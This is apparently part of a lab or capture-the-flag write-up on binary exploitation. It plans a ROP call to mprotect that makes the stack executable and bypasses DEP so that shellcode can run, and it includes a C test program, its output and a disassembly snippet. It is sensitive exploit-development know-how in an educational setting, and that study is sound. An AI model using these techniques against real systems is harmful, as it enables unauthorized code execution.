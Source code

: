 
## Exploit Plan

Because DEP is enabled, we have to mark the memory area of the stack executable. This is
possible by using the systemcall `mprotect`:

```
int mprotect(void *addr, size_t len, int prot);

mprotect() changes the access protections for the calling process's
       memory pages containing any part of the address range in the interval
       [addr, addr+len-1].  addr must be aligned to a page boundary.
```

So we will call `mprotect` syscall via ROP first, then invoke our now executable shellcode.
As we disabled ASLR, the stack and therefore our shellcode will be at a static address.


## Example mprotect()

Lets write a C program to test `mprotect()` from libc first. 

Important is that the address needs to be page aligned. We can do this with `addr & ~(4096 - 1)`.

```
#include <stdio.h>
#include <sys/mman.h>

#define PAGE_SIZE 4096

void main(void) {
        char stackvar[16];
        int ret;
        long long stackbase = (long long)( &stackvar ) & ~(PAGE_SIZE -1); // round down

        printf("Stack var: %p\n", &stackvar);
        printf("Stackbase: 0x%llx\n", stackbase);
        ret = mprotect( (void *) stackbase, 16, PROT_READ|PROT_WRITE|PROT_EXEC);

        printf("Ret: %i\n", ret);
}
```

Test:
```
root@hlUbuntu64:~/challenges/challenge16# gcc mprotect-test.c && ./a.out
Stack var: 0x7fffffffe480
Stackbase: 0x7fffffffe000
Ret: 0
```

Call to mprotect, via disassembly:
```
0x0000000000400627 <+81>:	mov    rax,QWORD PTR [rbp-0x28]
0x000000000040062b <+85>:	mov    edx,0x7
0x0000000000400630 <+90>:	mov    esi,0x10
0x0000000000400635 <+95>:	mov    rdi,rax
0x0000000000400638 <+98>:	call   0x4004c0 <mprotect@plt>
```
